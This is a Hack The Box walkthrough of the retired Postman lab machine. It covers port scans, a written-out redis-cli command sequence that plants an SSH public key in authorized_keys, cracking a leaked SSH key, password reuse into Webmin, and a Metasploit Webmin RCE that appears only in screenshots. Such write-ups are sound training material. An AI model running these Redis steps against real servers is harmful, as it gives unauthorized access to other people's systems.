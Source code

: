 ```yaml
---
layout: post
title: "Postman: Hack The Box Walkthrough"
date: 2020-03-14 16:50:38 +0000
last_modified_at: 2020-03-14 16:50:38 +0000
category: Walkthrough
tags: ["Hack The Box", Postman, retired, Linux, Easy]
comments: true
image:
  feature: postman-htb-walkthrough.jpg
  credit: ninita_7 / Pixabay
  creditlink: https://pixabay.com/photos/post-letter-mail-box-letter-boxes-2828146/
---
```


This post documents the complete walkthrough of Postman, a retired vulnerable [VM][1] created by [TheCyberGeek][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post
{:.no_toc}

* TOC
{:toc}

## Background

Postman is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let's start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.160 --rate=1000

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2019-11-03 13:51:36 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 10000/tcp on 10.10.10.160                                 
Discovered open port 6379/tcp on 10.10.10.160                                  
Discovered open port 80/tcp on 10.10.10.160                                    
Discovered open port 22/tcp on 10.10.10.160
```

Interesting list of open ports. Let's do one better with `nmap` scanning the discovered ports to establish their services.

```
# nmap -n -v -Pn -p22,80,6379,10000 -A --reason -oN nmap.txt 10.10.10.160
...
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: E234E3E8040EFB1ACD7028330A956EBF
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   syn-ack ttl 63 Redis key-value store 4.0.9
10000/tcp open  http    syn-ack ttl 63 MiniServ 1.910 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: 91549383E709F4F1DD6C8DAB07890301
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

Hmm. Other than the usual `ssh` and `http` services, we also have Redis and MiniServ running. Anyhow, this is what the `http` site looks like.

<a class="image-popup">
![1816123a.png](/assets/images/posts/postman-htb-walkthrough/1816123a.png)
</a>

### Redis SSH Backdoor

Anyway since the Redis service is available, let's check and see what we can glean from there.

<a class="image-popup">
![28521bc8.png](/assets/images/posts/postman-htb-walkthrough/28521bc8.png)
</a>

Interesting. The creator seems to be suggesting that there's a `redis` SSH account and the way to get a foothold is to dump a SSH public key we control to `authorized_keys`.

That should be easy.

1. `ssh-keygen -f redis`
2. `echo -ne "\n\n" > public; cat redis.pub >> public`
3. `redis-cli -h 10.10.10.160 SLAVEOF NO ONE`
3. `cat public | redis-cli -h 10.10.10.160 -x set pub`
4. `redis-cli -h 10.10.10.160 CONFIG SET dbfilename authorized_keys`
5. `redis-cli -h 10.10.10.160 SAVE`

I've incorporated the above steps into a script to save a bit of time because many HTB players are chasing after a Metasploit exploit that somehow didn't work as expected.

<a class="image-popup">
![b84c9e83.png](/assets/images/posts/postman-htb-walkthrough/b84c9e83.png)
</a>

### Matt's Backup SSH Key

During enumeration of `redis`'s account, I noticed that there is another account with UID 1000 (Matt). That would mean that the file `user.txt` is in Matt's home directory.

<a class="image-popup">
![6c8021b8.png](/assets/images/posts/postman-htb-walkthrough/6c8021b8.png)
</a>

Look what we found!

<a class="image-popup">
![397bd523.png](/assets/images/posts/postman-htb-walkthrough/397bd523.png)
</a>

Matt is careless to leave a backup of his password-protected SSH private key around.

<a class="image-popup">
![52c92cfb.png](/assets/images/posts/postman-htb-walkthrough/52c92cfb.png)
</a>

Something else is up. Notice that Matt cannot login via SSH.

<a class="image-popup">
![cb6018ab.png](/assets/images/posts/postman-htb-walkthrough/cb6018ab.png)
</a>

What good is a password-protected private key if we can't login via SSH? Well, we can crack the key's password and see what it brings us.

<a class="image-popup">
![657cca71.png](/assets/images/posts/postman-htb-walkthrough/657cca71.png)
</a>

And guess what. We can `su` as Matt with that password.

<a class="image-popup">
![b73a8c9e.png](/assets/images/posts/postman-htb-walkthrough/b73a8c9e.png)
</a>

There you have it. The file `user.txt` is indeed in Matt's home directory.

<a class="image-popup">
![5d53b140.png](/assets/images/posts/postman-htb-walkthrough/5d53b140.png)
</a>

## Privilege Escalation

During enumeration of Matt's account, I noticed the presence of a file in `/etc/webmin/Matt.acl`, which sort of gave me an idea—maybe Matt is able to log in to the Webmin using the same credential (`Matt:computer2008`)?

<a class="image-popup">
![5eea3d2f.png](/assets/images/posts/postman-htb-walkthrough/5eea3d2f.png)
</a>

No shit.

### Webmin 1.910 - 'Package Updates' Remote Command Execution

Long story short. As much as I wanted to avoid Metasploit, this is one exploit that executes better with it.

<a class="image-popup">
![a5c6060b.png](/assets/images/posts/postman-htb-walkthrough/a5c6060b.png)
</a>

This is way too easy.

<a class="image-popup">
![9dfc4cec.png](/assets/images/posts/postman-htb-walkthrough/9dfc4cec.png)
</a>

### Getting `root.txt`

<a class="image-popup">
![f1552c46.png](/assets/images/posts/postman-htb-walkthrough/f1552c46.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/215
[2]: https://www.hackthebox.eu/home/users/profile/114053
[3]: https://www.hackthebox.eu/
